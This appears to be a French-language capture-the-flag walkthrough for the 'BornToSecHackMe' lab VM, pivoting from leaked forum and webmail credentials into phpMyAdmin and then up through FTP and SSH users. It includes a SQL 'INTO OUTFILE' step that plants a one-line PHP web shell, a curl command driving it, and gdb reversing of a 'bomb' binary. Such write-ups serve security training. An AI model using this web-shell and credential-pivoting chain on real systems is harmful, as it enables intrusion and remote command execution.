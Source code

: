 Utilisation de dirbuster pour scan le site et trouver des dossiers


# Forum

- https://192.168.1.25/forum/index.php?id=6:
```
 Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

user: `lmezard`
password: `!q\]Ej?*5K5cy*AJ`

Connection pour le forum
Dans les parametres on a l'adresse mail: `laurie@borntosec.net`


# Webmail
url: `https://192.168.1.25/webmail/src/webmail.php`
user: `laurie@borntosec.net`
password: `!q\]Ej?*5K5cy*AJ`

Un des mail donne l'acces a la base de donnees:
```


Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

# PHPMyAdmin

url: `https://192.168.1.25/phpmyadmin`
user: `root`
password: `Fg-'kKXBj87E:aJ$`

## Inclusion SQL

```
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/forum/templates_c/dd.php"
```

On peut maintenant lancer des commandes avec curl:
`curl -k https://192.168.1.25/forum/templates_c/dd.php?c=<command>`

L'option k permet de ne pas verifier le certificat.

Pour les espaces on utilise %20

Dans home on peut seulement acceder a LOOKATME

A l'interieur on a un fichier password:
`lmezard:G!@M6f4Eatau{sF"`

C'est identifiant correspondent a ceux du serveur ftp

# FTP

connection: `ftp <ip>`
user: `lmezard`
password: `G!@M6f4Eatau{sF"`


En lancant la commande `ls` on trouve deux fichier: README et fun

On utilise get pour recuperer les deux fichiers



# fun

Le fichier README nous indique qu'une fois la solution trouve on aura le mot de passe pour laurie pour la connection ssh

En lancant la commande `file` sur le fichier fun on trouve que c'est une archive tar:

```
fun: POSIX tar archive (GNU)
```

`tar -xf fun`

Une fois cette commande faite, on peut trouver un dossier contenant beaucoup de fichier.


`grep "main" *`

BJPCP.pcap


```
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```
En utilisant: `grep "" *`

getme1() -> 331ZU.pcap -> file5 donc file6 -> APM1E.pcap -> `I`
getme2() -> G7Y8I.pcap -> file37 donc file38 -> ZPY1Q.pcap -> `h`
getme3() -> B62N4.pcap -> file56 donc file57 -> ECOW1.pcap -> `e`
getme4() -> 0T16C.pcap -> file115 donc 116 -> 7DT5Q.pcap -> `a`
getme5() -> 4KAOH.pcap -> file368 donc file369 -> T7VV0.pcap -> `r`
getme6() -> 91CD0.pcap -> file521 donc file522 -> J5LKW.pcap -> `t`
getme7() -> 32O0M.pcap -> file736 donc file737 -> T44J5.pcap -> `p`
getme8() -> `w`
getme9() -> `n`
getme10() -> `a`
getme11() -> `g`
getme12() -> `e`


Resultat: `Iheartpwnage`

On le chiffre maintenant en sha-256: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

On arrive bien a se connecter en ssh avec laurie.


# ssh

## laurie
user: `laurie`
password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`


On trouve dans son repertoire deux fichiers: README et bomb.

On les telecharge avec scp

On verifie l'historique mais on ne trouve rien.

Le readme nous donne le defi de trouver le mot de passe de thor

On voit en utilisant `nm` que le programme appel system et getenv. Il utilise aussi les sockets


On utilise gdb sur bomb pour pouvoir le dessassembler
`gdb ./bomb`
`disassemble main`

on voit que le programme separe les phase: phase_{1..6}

dans les phase il verifie dans un if que ce que rentre l'utilisateur correspond a une variable.

Il nous suffit donc de lire cette variable avec: `x`


Password: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`


## thor

user: `thor`
password: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`


